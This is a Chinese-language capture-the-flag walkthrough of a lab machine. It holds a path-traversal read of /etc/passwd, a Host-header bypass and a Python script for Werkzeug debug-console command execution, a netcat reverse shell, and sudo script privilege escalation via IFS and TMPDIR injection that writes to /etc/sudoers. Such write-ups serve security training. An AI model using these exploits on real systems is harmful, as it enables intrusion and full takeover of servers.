




端口扫描 1 2 3 4 5 6 7 8 9 10 11 12 13 ┌──(kali㉿kali)-[~/HMV/tmp] └─$ sudo nmap -p- 192.168.0.103 -oA ports [sudo ] password for kali: Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-10 19:20 CST Nmap scan report for 192.168.0.103 (192.168.0.103) Host is up (0.00051s latency). Not shown: 65533 closed tcp ports (reset) PORT STATE SERVICE 22/tcp open ssh 5000/tcp open upnp MAC Address: 0A:AB:09:75:52:32 (Unknown) Nmap done : 1 IP address (1 host up) scanned in 1.51 seconds
web 渗透 猜测 5000 端口是 web 服务，访问 5000 端口：
页面说是选一个关键词，可以看到一些歌词。
接着查看页面的网络访问状况，发现了一个获取歌词的路由：

猜测这里可能是直接获取的本地的文件之类的，测试是否存在文件包含，发现可以包含本地文件：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 ┌──(kali㉿kali)-[~] └─$ curl 'http://192.168.0.103:5000/sing?song=%2f%2f/%2f%2f/%2f%2f/etc/passwd' -i HTTP/1.1 200 OK Server: Werkzeug/3.1.3 Python/3.12.12 Date: Tue, 10 Feb 2026 11:24:45 GMT Content-Type: text/html; charset=utf-8 Content-Length: 834 Connection: close root:x:0:0:root:/root:/bin/bash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync :x:5:0:sync :/sbin:/bin/syncshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/mail:/sbin/nologin news:x:9:13:news:/usr/lib/news:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin cron:x:16:16:cron:/var/spool/cron:/sbin/nologin ftp:x:21:21::/var/lib/ftp:/sbin/nologin sshd:x:22:22:sshd:/dev/null:/sbin/nologin games:x:35:35:games:/usr/games:/sbin/nologin ntp:x:123:123:NTP:/var/empty:/sbin/nologin guest:x:405:100:guest:/dev/null:/sbin/nologin nobody:x:65534:65534:nobody:/:/sbin/nologin klogd:x:100:101:klogd:/dev/null:/sbin/nologin apache:x:101:102:apache:/var/www:/sbin/nologin tuf:x:1000:1000::/home/tuf:/bin/bash
可以看到有一个叫 tuf 的用户，尝试查看关于 tuf 用户的敏感文件，都没有什么发现。
这是一个用 python 的 flask 框架写的 web 服务，尝试读取了其他的文件，终于在 /proc/self/fd/1 中看到 Werkzeug 开启了 Debug 模式，而且还有 PIN 值：

因此想到我们可以用 web 服务上的 console 路径来进行任意命令执行，但尝试访问 console 路径，发现返回了 400 响应码的 Bad Request 。
询问了 AI 可能的原因，AI 说高版本的 Werkzeug 可能会检测访问的来源，只允许本地访问。
同时，在这个关于 Werkzeug 各版本更新内容的页面 ，我发现 Werkzeug 3.0.3 版本的更新内容写着 “运行开发服务器时，仅允许localhost、.localhost、127.0.0.1或指定的主机名来提出调试器请求。可以直接使用调试器中间件添加其他主机。调试器用户界面使用完整的URL而不是仅使用路径来请求。” ，而我们这个靶机的版本是 3.1.3 ，因此这里我们可能也需要绕过这个本地限制。
进行了一些尝试，最终发现加入 Host:127.0.0.1 的请求头可以成功访问到 console 路径。

之后，我使用了如下的 python 代码实现了 Werkzeug console 代码执行 的自动化：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 import requestsimport sysimport reimport jsonimport htmlclass EXP (): def __init__ (self ) -> None : self .parse_input() self .sess = requests.session() """self.sess.proxies = { "http":"http://127.0.0.1:8080", "https":"http://127.0.0.1:8080" }""" self .sess.headers.update({"Host" :"127.0.0.1" }) self .secret = self .get_secret() self .pin_auth() self .execute_cmd() def parse_input (self ): if len (sys.argv) != 4 : print (f"USAGE: python {sys.argv[0 ]} <website> <pin> <cmd>" ) sys.exit(-1 ) self .host = sys.argv[1 ] self .pin = sys.argv[2 ] self .cmd = sys.argv[3 ] def get_secret (self ): res = self .sess.get(f'{self.host} /console' ) secret = re.findall("[0-9a-zA-Z]{20}" ,res.text) if len (secret) != 1 : print ("[-] Couldn't get the SECRET" ) sys.exit(-1 ) else : secret = str (secret[0 ]) print (f"[+] SECRET is: {secret} " ) return secret def pin_auth (self ): try : res = self .sess.get(f"{self.host} /console?__debugger__=yes&cmd=pinauth&pin={self.pin} &s={self.secret} " ) if res.status_code == 200 : res_data = json.loads(res.text) if res_data['auth' ] == True : print ("[+] pin auth succeed" ) cookie = res.headers['Set-Cookie' ] header_cookie = {'Cookie' :cookie} self .sess.headers.update(header_cookie) except : print ("[+] pin auth error" ) exit() def execute_cmd (self ): cmd = f'''__import__('os').popen(\'{self.cmd} \').read();''' res = self .sess.get(f"{self.host} /console?&__debugger__=yes&cmd={cmd} &frm=0&s={self.secret} " ) print ("[+] execute command ouput:\n" ) print (html.unescape(res.text)) if __name__ == '__main__' : EXP()
并成功执行了命令：

获取立足点 因此，这里进行反弹 shell 即可：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 ┌──(kali㉿kali)-[~/HMV/tmp] └─$ nc -nvlp 1234 Listening on 0.0.0.0 1234 Connection received on 192.168.0.101 40779 whoami tuf python3 -c "import pty;pty.spawn('/bin/bash')" tuf@tmp:/$ cd /home/tuf cd /home/tuftuf@tmp:~$ ls ls user.txt tuf@tmp:~$ cat user.txt cat user.txtflag{user-efc2ff45f0724ce8bd897e4cdd356eca} tuf@tmp:~$
拿到了 user flag。
提权 sudo -l 发现 tuf 用户可以执行一个脚本：
1 2 3 4 5 6 7 8 9 10 11 tuf@tmp:~$ sudo -l sudo -lMatching Defaults entries for tuf on tmp: secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin Runas and Command-specific defaults for tuf: Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL" User tuf may run the following commands on tmp: (ALL) NOPASSWD: /usr/local/bin/getflag
以下为脚本的内容：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 #!/bin/bash if [[ $# -lt 2 ]]; then cat <<USAGE >&2 用法: $0 <varname> <varvalue> [args...] 示例: $0 username tuf --option 说明: - 将 <varname> 作为变量名，<varvalue> 作为变量值导入到当前脚本环境中 USAGE exit 1 fi VAR_NAME="$1 " VAR_VALUE="$2 " if [[ ! "$VAR_NAME " =~ ^[A-Za-z_][A-Za-z0-9_]*$ ]]; then echo "错误：变量名 '$VAR_NAME ' 不符合命名规则。" >&2 exit 2 fi declare -x "$VAR_NAME " ="$VAR_VALUE " unset LD_PRELOADunset LD_LIBRARY_PATHunset BASH_ENVunset PYTHONPATHexport PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin" TARGET_FILE="/opt/flag" TARGET_BASENAME="$(basename "$TARGET_FILE " ) " SANDBOX_DIR=$(mktemp -d) cp -- "$TARGET_FILE " "$SANDBOX_DIR /" SANDBOX_TARGET_FILE="$SANDBOX_DIR /$TARGET_BASENAME " cd "$SANDBOX_DIR " $SANDBOX_TARGET_FILE cd /tmprm -rf "$SANDBOX_DIR "
这个脚本就是创建了一个 tmp 的临时目录，然后在临时目录里面执行了一个 /opt/flag 脚本。
下面用两个方案来实现提权：
方案一 IFS（内部字段分隔符）是一个环境变量，用于指定 Shell 在读取输入时如何根据特定的分隔符将输入分割成多个字段。默认情况下，IFS包含三个字符：空格、制表符和换行符。
例如：
1 2 3 4 5 #!/bin/bash words="one two three" for word in $words ; do echo "$word " done
输出：
有时候，默认的字段分隔符可能不适合我们的需求。在这种情况下，我们可以修改IFS的值来改变字段的分割方式。例如，如果我们想要根据逗号来分割字段，可以这样做：
1 2 3 4 5 6 #!/bin/bash IFS=',' words="one,two,three" for word in $words ; do echo "$word " done
输出：
回到我们这台靶机，$SANDBOX_TARGET_FILE 的执行是没有双引号的，因此 shell 在执行时会进行命令的分割，如果中间有空格或者别的分隔符，shell 会分开当中命令和参数来执行。
之后，脚本执行的 $SANDBOX_TARGET_FILE 这个变量的形式是 /tmp/tmp.XXXXXX/flag 。
同时，我们可以传递一个变量的值给这个脚本。因此，如果我们传递 IFS='.' ，那 shell 在执行 /tmp/tmp.XXXXXX/flag 的时候，就会以点号 . 作为分割符，从而执行 /tmp/tmp 和 XXXXXX/flag 。
因此，我们可以创建一个任意命令 /tmp/tmp ，接着传递 IFS='.' ，从而达到任意命令执行的目的。
如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 tuf@tmp:/tmp$ echo 'cp /root/root.txt /tmp/root.txt' > tmp echo 'cp /root/root.txt /tmp/root.txt' > tmptuf@tmp:/tmp$ chmod +x tmp chmod +x tmptuf@tmp:/tmp$ sudo /usr/local/bin/getflag IFS . sudo /usr/local/bin/getflag IFS .tuf@tmp:/tmp$ ls -liah ls -liahtotal 792K 1 drwxrwxrwt 5 root root 200 Feb 11 16:54 . 2 drwxr-xr-x 22 root root 4.0K Jan 28 09:31 .. 3 drwxrwxrwt 2 root root 40 Feb 11 11:17 .ICE-unix 4 drwxrwxrwt 2 root root 40 Feb 11 11:17 .X11-unix 5 -rw-r--r-- 1 tuf tuf 4.5K Feb 11 12:23 app.log 15 -rwsr-sr-x 1 root root 771.0K Feb 11 16:53 bash 18 -rw-r--r-- 1 root root 44 Feb 11 16:54 root.txt 12 -rwxr-xr-x 1 tuf tuf 32 Feb 11 16:54 tmp 8 -rw------- 1 tuf tuf 0 Feb 11 12:25 tmp.BJlhEc 9 drwx------ 2 tuf tuf 40 Feb 11 12:26 tmp.GnaCka tuf@tmp:/tmp$ cat root.txt cat root.txtflag{root-3c3b91a376044379852a08d53578eb70} tuf@tmp:/tmp$
拿到了 root flag。
方案二 TMPDIR 是用于指定临时目录位置的环境变量，许多工具（如 mktemp、tmpfile、mkdir 的某些实现）会读取 $TMPDIR 的值，并将其作为创建临时文件或目录的父目录。
例如：
1 2 3 4 5 6 7 8 9 ┌──(kali㉿kali)-[/tmp] └─$ mkdir test ┌──(kali㉿kali)-[/tmp] └─$ export TMPDIR=/tmp/test ┌──(kali㉿kali)-[/tmp] └─$ mktemp -d /tmp/test/tmp.whpnM4juUm
可以看到，当我指定 TMPDIR=/tmp/test 之后，mktemp -d 会把临时文件夹创建在 /tmp/test 里面。
回到我们的这台靶机，思路和上面的方案一类似，就是让 shell 进行命令分割，从而执行任意命令。
我们可以传递 TMPDIR=/tmp/tmp test 这样中间带空格的路径，并且这个路径存在，那 shell 在执行的时候就会执行 /tmp/tmp 了。
如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 tuf@tmp:/tmp$ echo 'echo "tuf ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' > tmp echo 'echo "tuf ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' > tmptuf@tmp:/tmp$ chmod +x tmp chmod +x tmptuf@tmp:/tmp$ mkdir 'tmp test' mkdir 'tmp test' tuf@tmp:/tmp$ ls ls app.log tmp tmp test tuf@tmp:/tmp$ sudo /usr/local/bin/getflag TMPDIR '/tmp/tmp test' sudo /usr/local/bin/getflag TMPDIR '/tmp/tmp test' tuf@tmp:/tmp$ sudo -l sudo -lMatching Defaults entries for tuf on tmp: secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin Runas and Command-specific defaults for tuf: Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL" User tuf may run the following commands on tmp: (ALL) NOPASSWD: /usr/local/bin/getflag (ALL) NOPASSWD: ALL tuf@tmp:/tmp$ sudo bash sudo bashroot@tmp:/tmp# whoami whoami root root@tmp:/tmp# cat /root/root.txt cat /root/root.txtflag{root-3c3b91a376044379852a08d53578eb70} root@tmp:/tmp#
拿到了 root flag。